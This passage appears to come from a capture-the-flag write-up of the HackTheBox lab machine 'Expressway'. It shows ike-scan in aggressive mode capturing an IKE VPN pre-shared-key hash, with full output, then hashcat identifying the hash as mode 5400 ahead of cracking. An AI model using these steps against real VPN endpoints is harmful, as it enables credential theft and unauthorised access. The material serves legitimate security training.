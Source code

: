 We got the `ike@expressway.htb` and know the domain is `expressway.htb`. <br>
&rarr; Add these to `/etc/hosts`.

```bash
10.129.228.198     expressway.htb
```

Then we extract VPN Group Name & Hash.

```bash
└─$ ike-scan -A --pskcrack 10.129.228.198
Starting ike-scan 1.9.6 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.129.228.198  Aggressive Mode Handshake returned HDR=(CKY-R=f09aa6d7a7b69bf4) SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800) KeyExchange(128 bytes) Nonce(32 bytes) ID(Type=ID_USER_FQDN, Value=ike@expressway.htb) VID=09002689dfd6b712 (XAUTH) VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0) Hash(20 bytes)

IKE PSK parameters (g_xr:g_xi:cky_r:cky_i:sai_b:idir_b:ni_b:nr_b:hash_r):
244da01cd03dc35175ff9dd71ca4698ece97efd5abb41e4b84d3877f32ba61a96c2bec536fb673dc7fbbf63dbd81df3e8e1e0c546d58cd8c375b14b48417323d099f4157f96ec9233c43b0f8181987503d2341ce1baebe6a9b3ad40fb604de6ecdb63be086f40f0f5ec700e9a45d5bff26c97a0de46d2f0c9c54dca842c26fcc:116d5ce8db42b4e09a98890a23a7a67ddd0f738ea895485f57520aa1561817882c9e084a0ba7151c784da9ed9d5d6269e1aa7f11e10ebea363fa9fb0b86a7476cc79332e457724b90550ed0ea8152536c14d04f90d2ea20a5f937ec91687ed62a04bc71ce04fe9653755b54e9213ec449891598490f4e581f25b775bda4118cf:f09aa6d7a7b69bf4:4684498cf8a2a535:00000001000000010000009801010004030000240101000080010005800200028003000180040002800b0001000c000400007080030000240201000080010005800200018003000180040002800b0001000c000400007080030000240301000080010001800200028003000180040002800b0001000c000400007080000000240401000080010001800200018003000180040002800b0001000c000400007080:03000000696b6540657870726573737761792e687462:6f4adeb686cd93be8a5e9617b3bab84540c16889:650cb254d8c29f4624ee29619dbcddf79d4a82d7e45341c9b11c71e22bc473aa:a4d3a0b34a9dfea1fef8f5025a894894c68e8e71
Ending ike-scan 1.9.6: 1 hosts scanned in 0.199 seconds (5.02 hosts/sec).  1 returned handshake; 0 returned notify
```

Got our hash but this one is `PSK`. <br>
&rarr; Let's use `hashcat` to identify this type of mode and crack it out.

### Password Cracking
```bash
└─$ hashcat --identify '244da01cd03dc35175ff9dd71ca4698ece97efd5abb41e4b84d3877f32ba61a96c2bec536fb673dc7fbbf63dbd81df3e8e1e0c546d58cd8c375b14b48417323d099f4157f96ec9233c43b0f8181987503d2341ce1baebe6a9b3ad40fb604de6ecdb63be086f40f0f5ec700e9a45d5bff26c97a0de46d2f0c9c54dca842c26fcc:116d5ce8db42b4e09a98890a23a7a67ddd0f738ea895485f57520aa1561817882c9e084a0ba7151c784da9ed9d5d6269e1aa7f11e10ebea363fa9fb0b86a7476cc79332e457724b90550ed0ea8152536c14d04f90d2ea20a5f937ec91687ed62a04bc71ce04fe9653755b54e9213ec449891598490f4e581f25b775bda4118cf:f09aa6d7a7b69bf4:4684498cf8a2a535:00000001000000010000009801010004030000240101000080010005800200028003000180040002800b0001000c000400007080030000240201000080010005800200018003000180040002800b0001000c000400007080030000240301000080010001800200028003000180040002800b0001000c000400007080000000240401000080010001800200018003000180040002800b0001000c000400007080:03000000696b6540657870726573737761792e687462:6f4adeb686cd93be8a5e9617b3bab84540c16889:650cb254d8c29f4624ee29619dbcddf79d4a82d7e45341c9b11c71e22bc473aa:a4d3a0b34a9dfea1fef8f5025a894894c68e8e71'
The following hash-mode match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
   5400 | IKE-PSK SHA1                                               | Network Protocol
```
